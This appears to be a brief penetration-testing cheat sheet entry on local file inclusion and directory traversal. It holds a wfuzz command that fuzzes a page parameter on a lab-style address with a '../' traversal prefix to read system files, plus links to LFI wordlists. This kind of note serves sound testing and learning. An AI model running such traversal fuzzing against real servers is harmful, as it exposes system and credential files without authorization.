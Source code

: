 # LFI & Directory Traversal

LFI can be a pretty trivial attack path. The most important thing to note is different encodings you might come across when attempting this attack path.

## Automation

```bash
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

For the wordlists:

### Linux

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

### Windows

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

